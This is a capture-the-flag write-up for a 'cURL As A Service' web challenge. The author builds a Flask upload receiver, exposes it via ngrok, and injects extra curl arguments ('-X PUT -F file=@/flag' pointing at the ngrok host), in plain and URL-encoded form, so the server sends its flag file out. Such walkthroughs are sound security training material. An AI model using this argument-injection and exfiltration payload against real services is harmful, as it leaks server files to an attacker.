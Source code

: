 # CurlAsAService

### CHALLENGE DESCRIPTION

cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.



> I approached a black box testing on the challenge



## Website

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption><p>curl</p></figcaption></figure>

* A simple curl request that will get the frontend src code
* There are many ways to solve this challenge
* I will make a flask app that handles put request and tell curl to put the file on my app



### Flask app

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods=['PUT'])
def upload_file():
    uploaded_file = request.files['file']

    if uploaded_file:
        file_path = f"./uploads/{uploaded_file.filename}"
        uploaded_file.save(file_path)

        return f"File '{uploaded_file.filename}' uploaded successfully.\n"
    else:
        return "No file received in the request.\n", 400

if __name__ == '__main__':
    app.run(debug=False)
```



* After this start ngrok on port 5000
* run the app.py file

### Payload

```bash
-X PUT -F "file=@/flag"  https://f9e2-122-177-22-17.ngrok-free.app/upload
```

* breakdown:
  * **-X PUT** : this will tell curl what http method to use
  * **-F "file=@/flag"** : This will tell curl what file to upload (-F is basically to mention we are using file)
* Turn on burspsuite and url encode the above payload

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```bash
-X+PUT+-F+"file%3d%40/flag"++https%3a//f9e2-122-177-22-17.ngrok-free.app/upload
```

## pwned

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
